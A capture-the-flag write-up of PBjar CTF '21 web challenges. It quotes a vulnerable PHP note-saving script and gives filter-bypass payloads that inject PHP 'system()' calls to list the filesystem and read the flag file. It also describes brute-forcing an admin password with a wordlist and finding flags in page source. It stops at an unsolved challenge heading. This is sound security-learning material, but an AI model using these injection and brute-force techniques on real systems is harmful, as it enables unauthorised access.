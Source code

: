 # PBjar CTF '21
## Web challenges

Those challenges are not hard. Anyway, I still write writeup for them to end a lazy week :(
## Programmers hate programming

File ProgrammersHateProgramming-sourcecode.php is provided:
```
<?php
if(isset($_POST["notewrite"]))
{
    $newnote = $_POST["notewrite"];
    $notetoadd = str_replace_first("<?php", "", $newnote);
    $notetoadd = str_replace_first("?>", "", $notetoadd);
    $notetoadd = str_replace_first("<script>", "", $notetoadd);
    $notetoadd = str_replace_first("</script>", "", $notetoadd);
    $notetoadd = str_replace_first("flag", "", $notetoadd);

    $filename = generateRandomString();
    file_put_contents("$filename.php", $notetoadd);
    header("location:index.php");
}
?>
```
We can understand that when we write something in 'new node', a file with php extension will be created with our input.

Filter in this challenge is really easy to bypass, we can use two filtered words interlocked, only one words is deleted and we got the word we need.

For example:

![](img1.png)

oke, generate payload to find and get flag:

- List files in `/`
  ```
  <?p<?phphp
    system('ls /');
  ??>>
  ```
  
 Oke, flag is here
 
 ![](img2.png)
 
 - Next, just cat the flag:
  ```
  <?p<?phphp
    system('cat /flflagag.php');
  ??>>
  ```
### Flag: flag{server_side_php_xss_is_less_known_but_considering_almost_80%_of_websites_use_php_it_is_good_to_know_thank_me_later_i_dont_want_to_stop_typing_this_flagg_is_getting_long_but_i_feel_like_we're_developing_a_really_meaningful_connection}
  
## Programmers hate programming 2
The idea is same with Programmers hate programming but more words are filtered:
```
<?php
if(isset($_POST["notewrite"]))
{
    $newnote = $_POST["notewrite"];
    $notetoadd = str_replace_first("<?php", "", $newnote);
    $notetoadd = str_replace_first("?>", "", $notetoadd);
    $notetoadd = str_replace_first("<?", "", $notetoadd);
    $notetoadd = str_replace_first("flag", "", $notetoadd);

    $notetoadd = str_replace("fopen", "", $notetoadd);
    $notetoadd = str_replace("fread", "", $notetoadd);
    $notetoadd = str_replace("file_get_contents", "", $notetoadd);
    $notetoadd = str_replace("fgets", "", $notetoadd);
    $notetoadd = str_replace("cat", "", $notetoadd);
    $notetoadd = str_replace("strings", "", $notetoadd);
    $notetoadd = str_replace("less", "", $notetoadd);
    $notetoadd = str_replace("more", "", $notetoadd);
    $notetoadd = str_replace("head", "", $notetoadd);
    $notetoadd = str_replace("tail", "", $notetoadd);
    $notetoadd = str_replace("dd", "", $notetoadd);
    $notetoadd = str_replace("cut", "", $notetoadd);
    $notetoadd = str_replace("grep", "", $notetoadd);
    $notetoadd = str_replace("tac", "", $notetoadd);
    $notetoadd = str_replace("awk", "", $notetoadd);
    $notetoadd = str_replace("sed", "", $notetoadd);
    $notetoadd = str_replace("read", "", $notetoadd);
    $notetoadd = str_replace("ls", "", $notetoadd);
    $notetoadd = str_replace("ZeroDayTea is not hot", "", $notetoadd);

    $filename = generateRandomString();
    file_put_contents("$filename.php", $notetoadd);
    header("location:index.php");
}
?>
```
- List file in /:
We can use `\` to notify that the command doesn't finish. By this way we will have full command:
```
  <<??php
    system('l\s /');
  ??>>
```
- Cat flag.php:

```
  <<??php
    system('c\at /flflagag.php');
  ??>>
```
### Flag: flag{wow_that_was_a_lot_of_filters_anyways_how_about_that_meaningful_connection_i_mentioned_earlier_:)}

## C0rl:
### Hint: username and poplular password for admin.

First, I think popular username for admin maybe is admin, and what is popular password for admin, I'm to lazy to think, so I use `100000-password-seclists.txt` to brute force with burp.

Finally, I find out the password is `admin`, lol.

I still can't get the flag:

![](img3.png)

But Why `put` is bold?

Let try changing HTTP request heder to `PUT`. Oh we get flag:

![](img4.png)

### FLAG: flag{HTTP_r3qu35t_m3th0d5_ftw}

## Hack NASA With HTML Mr. Inspector Sherlock
It's an easy challenge, so I only show the file which flag locate.

FLag part 1 is in animation.js: flag{wA1t_a_m1nUt3_

Flag part 2 is in what.html (access sofware.html we can see what.html): I_th0ugh1_sh3l0ck_w2s

Flag part3 (only view source): _a_d3t3ct1iv3????!?!?!}

### Flag: flag{wA1t_a_m1nUt3_I_th0ugh1_sh3l0ck_w2s_a_d3t3ct1iv3????!?!?!}

## omgsosmolhowhacc





